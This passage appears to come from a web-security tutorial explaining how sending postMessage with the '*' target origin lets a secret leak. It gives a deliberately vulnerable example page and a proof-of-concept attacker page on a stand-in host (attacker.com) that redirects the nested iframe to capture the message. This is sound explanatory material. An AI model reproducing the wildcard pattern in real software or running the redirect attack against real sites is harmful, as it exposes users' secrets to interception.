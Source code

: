 <pre class="language-html" data-title="https://example.com"><code class="lang-html">&#x3C;body>
  &#x3C;script>
    async function sleep(ms) {
      return new Promise((resolve) => setTimeout(resolve, ms));
    }

    (async () => {
      const iframe = document.createElement("iframe");
<strong>      iframe.src = "https://inner.example.com";
</strong>      document.body.appendChild(iframe);

      await sleep(1000);
      // Expects to send to inner.example.com, but wrongly uses "*" to send to any origin
<strong>      iframe.contentWindow.postMessage("secret", "*");
</strong>    })();
  &#x3C;/script>
&#x3C;/body>
</code></pre>

<pre class="language-html" data-title="https://inner.example.com"><code class="lang-html">&#x3C;script>
<strong>  onmessage = (e) => {
</strong>    console.log("INNER", e.data);
  };
&#x3C;/script>
</code></pre>

An attacker can abuse this by using the [`window.frames`](https://developer.mozilla.org/en-US/docs/Web/API/Window/frames) property to change the location of this inner iframe, and intercept the secret message:

<pre class="language-html" data-title="https://attacker.com"><code class="lang-html">&#x3C;body>
  &#x3C;script>
    async function sleep(ms) {
      return new Promise((resolve) => setTimeout(resolve, ms));
    }

    (async () => {
      const iframe = document.createElement("iframe");
<strong>      iframe.src = "https://example.com";
</strong>      document.body.appendChild(iframe);

      await sleep(1000);
      // After example.com has loaded and the frame was created, redirect it to our domain
<strong>      iframe.contentWindow.frames[0].location = "https://attacker.com/leak.html";
</strong>    })();
  &#x3C;/script>
&#x3C;/body>
</code></pre>

<pre class="language-html" data-title="/leak.html"><code class="lang-html">&#x3C;script>
<strong>  onmessage = (e) => {
</strong>    // The secret postmessage will now end up in this handler!
    console.log("LEAKED", e.data);
  };
&#x3C;/script>
</code></pre>
